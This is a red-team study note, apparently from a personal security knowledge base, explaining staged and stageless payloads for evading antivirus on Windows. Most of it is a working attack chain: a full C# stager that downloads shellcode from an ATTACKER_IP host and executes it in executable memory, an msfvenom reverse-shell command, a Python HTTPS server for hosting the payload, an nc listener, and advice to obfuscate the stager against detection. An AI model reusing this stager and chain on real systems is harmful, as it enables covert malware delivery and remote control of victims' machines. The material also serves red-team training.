 ```yaml
---
{"dg-publish":true,"permalink":"/staged-and-stageless/","tags":["red-team/windows/ad/host-evasion"]}
---
```


~ [[Evading Antivirus\|Evading Antivirus]]
### Introduction
---
This is how we deliver our final payload, there are two types one is **staged** and the other one is **stageless**, the difference is

- **Stageless** the [[cards/blue-team/malware-analysis/Analyzing Shellcode - Malware\|shellcode]] (payload) is embedded to itself, it's similar to a packaged app, the user opens the package then gets the 'reward'. A single step process.

- **Staged** it uses intermediary shellcode (payload) that leads to the execution of the final shellcode. Each of these 'intermediary' shellcodes is known as **stager** with a sole purpose of retrieving the final shellcode.
	- First stage (or the intermediary shellcode) is usually referred to as **stage0**.
	- Do note it's not limited to first stage then final payload - it could have many stages.

```staged
1. User Executes Payload -> 2. Retrieve FinalShell Code from Attacker ->
3.Load and execute final shellcode in memory -> 4. Send reverse shell
```


#### Key Topics
---
## Prerequisites
---
- [[cards/windows/Windows Internals\|Windows Internals - Processes, threads, Virtual Memory, and more.]]
- [[Evading Antivirus\|Evading Antivirus]]
- [[cards/windows/Windows API\|Windows API]] 
## Why Stageless When Staged?
---

**Stageless**

- Attacking a host with very restricted network connectivity. Great to have fewer network detection
- Has a lot of perimeter security - see [[cards/red-team/Lay off the Land\|Lay off the Land]] to enumerate a host.

**Staged**

- Small footprint on disk - since **stage0** is only in charge of downloading the finalshellcode, it will most likely be small in size.
- **Final shellcode** isn't embedded into the executable - Blue team will only have access to the stage0 and nothing more. Useful for red teaming or a must 'hack' infrastructure.
- stage0 can simply be reused but it is recommended to change it up a little bit as security tools regularly scans for patterns.

So in summary:

- For _closed or heavily monitored environments_, **stageless** makes sense.
- For _persistent, stealthy campaigns_, **staged** with a well-crafted Stage0 and obfuscated final stage is often the better choice.

### Stagers in Metasploit
---
In metasploit, we can identify a stager and a stageless via the `_` and `/`:

| **Payload**                   | **Type**          |
| ----------------------------- | ----------------- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload    |
## Basic Stager
---
Here is a stager code, note it's best to add some obfuscation or any thing that can prevent pattern detection:

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Breaking down the code:

Importing functions from `kernel32.dll`: (`VirtualAlloc`, `CreateThread`, `WiatForSingleObject`):

![Staged and Stageless.png](/img/user/cards/red-team/images/Staged%20and%20Stageless.png)

The second most important part is the `Stager()` function:

![Staged and Stageless-1.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-1.png)

- `Webclient` allows us to download a shellcode using web request.
- `ServiceCertificateValidationCallback` allows us to download files from a server with self-signed or invalid certificate.
- `DownloadData` well it downloads I guess???? then stores it into the shell code var.

![Staged and Stageless-2.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-2.png)

- `VirtualAlloc` copy the shell code into the executable memory by requesting a memory block from the OS -- notice the use of `shellcode.length` and we make the memory executable, readable and writable via `PAGE_EXECUTE_READWRITE`.
- Copy the contents of the shellcode into the var `codeAddr` via `Marshal.Copy` function.

![Staged and Stageless-3.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-3.png)

- `CreateThread` to spawn a new thread on the current process that will execute our shellcode.
- The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode.
- The fifth parameter is set to **0** which means the thread will start immediately.
- Once the thread is created, call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute.

### Running our Stager to get a reverse shell
---
Make sure to change the URL in the stager0 code then compile with:

```C
csc staged-payload.cs
```

At the attacker's box generate a simple reverse shell:

```C
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Creating a simple self-signed certificate for our HTTPs server:

```C
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Then hosting our payload by running a simple HTTPs server with python:

```C
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Then listening for reverse shell connections:

```C
nc -lvp 7474
```

Then:

![Staged and Stageless-4.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-4.png)
